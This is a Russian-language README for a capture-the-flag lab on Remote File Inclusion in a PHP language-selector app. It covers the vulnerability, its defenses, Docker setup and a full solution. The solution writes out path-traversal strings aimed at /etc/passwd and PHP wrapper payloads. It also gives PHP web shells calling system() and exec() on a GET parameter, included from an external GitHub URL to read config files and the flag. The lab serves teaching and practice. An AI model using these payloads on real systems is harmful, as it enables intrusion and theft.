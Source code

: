 ## Описание уязвимости
Данная уязвимость позволяет включать в ответ на запрос удалённые файлы(а в некоторых случаях даже их исполнять). Иногда, если удалённые файлы включаются в ответ на запрос RFI может легко перетекать в SSRF.
Данная уязвимость тесно связана с LFI. В большинстве случаев RFI возможна тогда и только тогда, когда возможна и LFI.
Функции в разных языках, которые могут приводить к RFI:
- **PHP**: `include()`/`include_once()`, `file_get_contents()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()`, `include`
## Способы защиты
В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты. 
- Использовать те же самые методы защиты, что и при LFI, так как уже было сказано, что они тесно связаны
- Необходимо выставлять значение переменных allow_url_fopen  или allow_url_include на off в файле php.ini
- Использование WAF
- Использование white листов
- Проверки на содержимое GET-параметров, используемых в уязвимых функциях
## Запуск приложения
Для запуска приложения необходимо:
- скачать репозиторий
- в файле \/etc\/hosts прописать: `10.90.0.110 lang.local`, где вместо `10.90.0.110` должно быть записано содержимое переменной NGINX_IP из файла .env
- зайти в директорию с файлом docker-compose.yaml
- в случае, если необходимо поменять значения переменных окружений в файле .env(данный файл содержит переменные NET_IP, FPM_IP, NGINX_IP, FLAG, где NET_IP задаёт значение IP адреса сети remote-file-inclusion_mynetwork, FPM_IP задаёт IP-адрес контейнера c php-fpm, NGINX_IP задаёт IP адрес контейнера с nginx, а FLAG задаёт флаг; в случае, если на устройстве есть сетевой интерфейс с IP-адресом из файла .env имеет смысл поменять адреса в соответствие с RFC 791)
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- для завершения необходимо в терминале в той же папке, что и docker-compose.yaml прописать docker-compose down
- в случае, если при новом запуске выводится ошибка подобная `ERROR: Network "remote-file-inclusion_mynetwork" needs to be recreated - IPAM option`, необходимо прописать: `docker network rm remote-file-inclusion_mynetwork` и после этого перейти к шагу 4
- можно также менять значения переменных файле php.ini(например прописав `disable_functions = exec,passthru,system`)
## Описание уязвимости в приложении
Необходимо получить доступ к файлу \/flag.txt.
В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлам index.php и style.css.
Приложение получает GET параметр, обрабатывая его при этом(происходит циклическая проверка на наличие ..\/, различных обёрток и схем(с помощью регулярных выражений)). После этого происходит включение файла, находящегося по пути из переменной $path_to_lang_file:
```php
<?php
	include $path_to_lang_file;
	echo $text;
?>
```
Последовательность действий:
- проверить на наличие уязвимостей типа LFI, path traversal.
- попытаться включить какую-то страницу, например `http://lang.local/`
- создать файл с каким-то php кодом и расположить его на сервере с белым IP, либо создать файл на github
- в качестве значения GET параметра выставить ссылку на этот файл

## Решение
Первые шаги почти такие же, как и в LFI стенде:
В качестве значений GET параметров используем следующие значения:
```http
../../../../../../../../../../../../etc/passwd
..././..././..././..././..././..././..././etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:
![](./img/photo_5273909760485354624_y.jpg)
Это может навести на мысль о том, что значение заголовка фильтруется.
Можно использовать php обёртки и различные схемы для получения index.php в base64:
`php://filter/convert.base64-encode/resource=./index.php`, `expect://id`, `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`.
![](./img/photo_5273909760485354625_y.jpg)
Но к сожалению обёртки не работают.
Проверим что произойдёт, если в качестве значения GET-параметра передать следующую ссылку:
```http
http://lang.local
```
![](./img/photo_5273909760485354626_y.jpg)
Видно что в ответ на запрос, вернулся страница в странице. Это явно намекает о наличии RFI.
Для эксплуатации попытаемся использовать обычный payload с функцией `system`.
```php
<?php system($_GET["cmd"]);?>
```
Данный файл находится по следующей ссылке:
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/system_payload.php
```
В конечном итоге будем использовать такой url, который необходимо подставить в поисковую строку:
```http
http://lang.local/?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/system_payload.php&cmd=ls ./
```
![](./img/photo_5273909760485354627_y.jpg)
Видим ошибку, которая связана с тем, что функция `system` запрещена для использования.
Следующее действие, которое можно сделать - это попытаться вытащить файл .\/index.php с помощью следующего payload:
```php
<?php
$content = file_get_contents($_GET['file']);
$base64Content = base64_encode($content);
echo $base64Content;
?>
```
Данный payload находится по следующей ссылке:
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php
```
Окончательный url для подстановки в поисковую строку:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php&file=./index.php
```
Получаем base64 закодированное содержимое .\/index.php:
![](./img/photo_5273909760485354628_y.jpg)
В результате декодирования получим:
![](./img/photo_5273909760485354629_y.jpg)
Это даёт нам подсказку на поиск какого-то файла в директории \/usr\/local\/etc\/php. Вероятней всего - это файл php.ini.
Подставим теперь в поисковую строку следующий URL:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php&file=/usr/local/etc/php/php.ini
```
Получаем следующее содержимое:
![](./img/photo_5273909760485354630_y.jpg)
Так как ранее было показано, что функция `system` отключена, то имеет смысл посмотреть все отключенные функции в переменной `disable_functions`:
![](./img/photo_5273909760485354631_y.jpg)
Запрещены три функции, которые используются для исполнения консольных команд. Если поискать, то можно найти, что кроме этих трёх функций для  выполнения команд можно использовать команду `exec`.
![](./img/photo_5273909760485354632_y.jpg)
Будем использовать такой payload для того, чтобы получить доступ к флагу:
```php
<?php
$output = null;
exec($_GET['cmd'], $output);
print_r($output);
?>
```
Конечный url для поисковой строки выглядит так:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/exfil_flag.php&cmd=cat /flag.txt
```
Получаем флаг:
![](./img/photo_5273909760485354633_y.jpg)

[LFI_with_sess_poisoning](https://github.com/Truncheon-eng/LFI_with_sess_poisoning)
